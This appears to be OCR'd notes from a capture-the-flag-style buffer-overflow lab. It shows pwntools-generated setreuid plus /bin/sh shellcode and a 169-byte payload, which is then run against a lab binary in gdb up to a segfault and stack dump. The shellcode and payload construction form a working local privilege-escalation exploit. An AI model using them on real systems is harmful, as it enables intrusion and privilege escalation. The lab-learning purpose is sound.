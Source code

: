 ```
┌──(kali㉿kali)-[~/bufferoverflow/learn]
└─$ pwn shellcraft -f d amd64.linux.setreuid 1003
\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05

>>> shellcode = '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'
>>> len(shellcode)
54


Return address

Now, let’s have a look at our payload. It should look like this:

┌───────────────────┬────────────────────┬────────────────────┬────────────────────┐
│ NOP sled (90)     │ shellcode (54)     │ random chars (19)  │ Memory address (6) │
└───────────────────┴────────────────────┴────────────────────┴────────────────────┘
total length = 90 + 54 + 19 + 6 = 169

>>> payload = 'A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6
>>> len(payload)
169


now NOP sled


[user1@ip-10-10-2-237 overflow-4]$ gdb buffer-overflow-2
GNU gdb (GDB) Red Hat Enterprise Linux 8.0.1-30.amzn2.0.3
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-redhat-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from buffer-overflow-2...(no debugging symbols found)...done.
(gdb) run $(python2 -c "print 'A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6")
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python2 -c "print 'A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6")
Missing separate debuginfos, use: debuginfo-install glibc-2.26-32.amzn2.0.1.x86_64
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1�f��jqXH��j;XH1�I�//bin/shI�APH��RWH��j<XH1�BBBBBBBBBBBBBBBBBBBCCCCCC

Program received signal SIGSEGV, Segmentation fault.
0x0000434343434343 in ?? ()
(gdb) x/100x $rsp-200
0x7fffffffe218: 0x004005a9      0x00000000      0xf7ffa268      0x00007fff
0x7fffffffe228: 0xffffe63e      0x00007fff      0x67676f64      0x4141416f
0x7fffffffe238: 0x41414141      0x41414141      0x41414141      0x41414141
```
